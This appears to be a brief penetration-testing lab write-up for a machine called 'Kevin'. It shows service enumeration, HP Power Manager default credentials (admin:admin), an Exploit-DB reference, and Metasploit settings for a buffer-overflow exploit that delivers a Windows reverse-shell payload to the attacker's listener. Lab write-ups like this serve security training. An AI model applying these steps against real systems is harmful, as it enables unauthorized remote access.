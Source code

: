 # Kevin

### Enumeration

```
80/tcp    open  tcpwrapped
```

HP Power Manager

Default credentials -> admin:admin

HP Power Manager 4.2 (Build 7)

HP Power Manager - 'formExportDataLogs' Remote Buffer Overflow (Metasploit)

[https://www.exploit-db.com/exploits/18015](https://www.exploit-db.com/exploits/18015)

### Access

```
msf6 exploit(windows/http/hp_power_manager_filename) > options

Module options (exploit/windows/http/hp_power_manager_filename):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,typ
                                       e:host:port][...]
   RHOSTS   192.168.145.45   yes       The target host(s), range CIDR identifier,
                                       or hosts file with syntax 'file:<path>'
   RPORT    80               yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (windows/shell_reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread,
                                         process, none)
   LHOST     tun0             yes       The listen address (an interface may be sp
                                        ecified)
   LPORT     80               yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows XP SP3 / Win Server 2003 SP0
```
